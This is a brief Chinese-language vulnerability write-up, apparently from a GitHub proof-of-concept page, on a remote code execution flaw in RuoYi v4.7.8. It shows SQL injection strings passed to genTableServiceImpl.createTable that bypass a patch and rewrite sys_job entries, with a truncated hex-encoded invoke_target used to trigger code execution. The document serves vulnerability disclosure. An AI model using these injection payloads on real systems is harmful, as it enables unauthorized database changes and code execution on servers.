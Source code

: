 ## RUOYI-v4.7.8存在远程代码执行漏洞

## SQL
在补丁中，采用了黑名单和白名单的策略。

![image](../../images/956ab54c-b644-46c9-8e9a-721c4fc7e2c3.png)

不过，我通过使用白名单类成功绕过了它，并成功进行了 SQL 注入。

`genTableServiceImpl.createTable('SELECT 1 FROM 'Hack By 1ue';')`


![image](../../images/15edcc06-576b-4421-b99a-c10b837d3ac3.png)

`genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By 1ue' WHERE job_id = 1;')`
修改表数据成功job_id

## RCE

JobInvokeUtil由于调用时字符串中不允许有括号，所以我将原作业表中特定作业的参数值修改为十六进制（绕过防御检测），从而启用了另一个远程代码执行（RCE）的定时任务

![image](../../images/1e58dc92-fd84-4c1d-bc92-c7c4e803dfdf.png)

`genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a61... WHERE job_id = 2;')`

![image](../../images/bd28ba04-2e62-47ef-8142-68819931ea0b.png)

作业的 invoke_target 已更改

![image](../../images/71ffcbdc-fa38-4249-a878-c47abbed1ed2.png)


## 漏洞来源
- https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC?tab=readme-ov-file
